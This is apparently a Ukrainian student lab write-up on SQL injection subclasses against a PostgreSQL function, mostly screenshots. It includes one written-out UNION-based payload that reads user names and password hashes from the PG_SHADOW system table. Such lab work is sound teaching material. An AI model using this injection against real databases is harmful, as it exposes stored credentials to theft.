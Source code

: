 1. SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту":
    <p><img width="321" alt="image" src="https://user-images.githubusercontent.com/52915030/206472057-fd695f8b-4443-4dcb-b37d-150bc1f6cb37.png"> </p>
2. SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL- запит"
    <p> select * from get_data('1'' UNION SELECT CAST(usesysid as integer), CAST(USENAME as varchar), CAST(PASSWD as integer) FROM PG_SHADOW -- ')</p> 
    <p> <img width="707" alt="image" src="https://user-images.githubusercontent.com/52915030/206477417-1c448160-a123-4603-aefd-e6657acd93e7.png"></p> 
3. SQL-ін'єкція підкласу "Отримання структури таблиць БД":
    <p> <img width="433" alt="image" src="https://user-images.githubusercontent.com/52915030/206483260-2eee6006-2d63-4274-8339-282e42dc7a93.png"></p>
